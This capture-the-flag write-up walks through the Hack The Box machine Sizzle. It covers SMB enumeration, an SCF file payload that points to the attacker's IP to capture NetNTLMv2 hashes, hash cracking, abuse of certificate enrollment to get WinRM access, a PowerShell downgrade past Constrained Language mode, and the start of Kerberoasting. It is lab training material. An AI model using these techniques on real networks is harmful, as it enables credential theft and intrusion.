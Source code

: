 

#### Background


**Sizzler** is a a really tough windows box. 

#### Enumeration

To begin the enumeration process, a **TCP/UDP** port scan was run against the target using nmap. The purpose of scan is to quickly determine which ports are open and which services are running. 

###### OS Information
Based on the system we know it is running some version of windows server

###### Open Ports:
In addition to usual ports, 22 and 80 UDP port 161 is open. UDP 161 is the standard SNMP port.There is also a filtered ftp port showing.

![source-01](/img/sizzle5.PNG){: .align-left}

#### Notes:
- There are a lot of ports open and by looking at the open ports we know it is most likely a windows active directory setup.

#### HTTP - TCP 80
Gobuster did find an interesting directory **certenroll**  which is microsoft certificate authority enrolement service.
```python

/aspnet_client (Status: 301)
/certenroll (Status: 301)
/Images (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
```
But visiting that directory show us 403 forbidden

![source-01](/img/sizzle1.PNG){: .align-left}



#### SMB - TCP 445
Using SMB client i was able to get bunch of shares.

```python

sizzle smbclient -N -L \\\\sizzle.htb.local

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        CertEnroll      Disk      Active Directory Certificate Services share
        Department Shares Disk
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        Operations      Disk
        SYSVOL          Disk      Logon server share
SMB1 disabled -- no workgroup available
```
Notes:
- From the shares i noticed the CertEnroll which is used by Microsoft Certificate Authority. From my years of experience with managing windows Active directory environments /certsrv 

Visting that directory pop us for a username and password

![source-01](/img/sizzle2.PNG){: .align-left}

So we need a username and password to access /certsrv, lets enumerate the SMB shares further.

There is nothing interesting in department shares and most of the folders are empty. 

![source-01](/img/sizzle4.PNG){: .align-left}

From all the folders we have Full access to  /Users folder.

![source-01](/img/sizzle7.PNG){: .align-left}

#### SMB Share – SCF File Attacks

When we have read/write access to a SMB file share, we can performa a SCF file attack to steal NetNTLMv2 hash.
> 

After uploading the malicious SCF file, we wait for responder 

![source-01](/img/sizzle8.PNG){: .align-left}

And we got user Amanda's NetNTLM Hash

#### Hash Cracking

Feed  the captured hash to hashcat to crack it.

![source-01](/img/sizzle9.PNG){: .align-left}

And we got the password.

#### Certenrol Access
Using the credential for amanda we can login to /cersrv which is Microsoft certificate certificate enrol service.

![source-01](/img/Screenshot_2020-06-21_16-25-23.png){: .align-left}

Great now we can request certificates, why we need a certificate anyway ?. From our initial nmap scans we know winrm port is open which is https, to use this service we need to have a valid certificate.

What is WinRM ?
> Windows Remote Management, or WinRM, is a Windows-native built-in remote management protocol in its simplest form that uses Simple Object Access Protocol to interface with remote computers and servers, as well as Operating Systems and applications.

#### Intial Acess - Compromising User

Now we can use the cersrv portal and request for Certificate Signing Request (CSR).

#### SCF - Attack
SCF payload:

```python

➜  sizzle cat steal.scf
[Shell]
command=2
IconFile=\\10.10.14.36\share\pwn.ico
[Taskbar]
Command=ToggleDesktop
```
upload the SCF file to SMB share
```python

smb: \Users\public\> put steal.scf
putting file steal.scf as \Users\public\steal.scf (0.1 kb/s) (average 0.1 kb/s)
```

#### Certificate Signing Request (CSR)
We can use OpenSSL to generate CSR file 

![source-01](/img/Screenshot_2020-06-21_16-47-07.png){: .align-left}

On the certificate web enrollment page copy/paste the content of the CSR file.

![source-01](/img/Screenshot_2020-06-21_16-55-08.png){: .align-left}

After generating and signing the cerificate for amanda SSL authentication, we need to set some variables in WinRM script. 

![source-01](/img/Screenshot_2020.png){: .align-left}


#### Initial Access:
Now we can use WinRM script to Loging as amanda.

![source-01](/img/Screenshot_2020-58.png){: .align-left}

User.txt file is not in amanda folders, there was another user in the system. So we might have to exploit this user to get to administrator.

![source-01](/img/Screenshot_2020-06-22.png){: .align-left}


#### System Enumeration:
Try to upload and run bloodhound to the syste, but it was blocked by powershell constrained deligation, on top of that AppLocker is in place and its blocking everything i throw it.

![source-01](/img/Screenshot2020-06-2211.png){: .align-left}

> PowerShell Constrained Language is a language mode of PowerShell designed to support day-to-day administrative tasks, yet restrict access to sensitive language elements that can be used to invoke arbitrary Windows APIs.

#### PowerShell CL and AppLocker Bypass
Lets bypass powershell constrained language mode and AppLocker to run our tools.
It was simple enough to bypass the PowerShell CL using powershell downgrade attack, i used powershell version2 to bypass the CL mode.
> When forcing PowerShell to run using its PowerShell 2.0 engine none of the advanced security features are available, since the older .NET Framework v2.0 is loaded with powershell.

SPN- Attack
Getting all the users with SPN, for easy kerberoasting win

![source-01](/img/Screenshot2020-06-22142754.png){: .align-left}

And we can see the user milky have a service principal name, the user is running some service using that account.















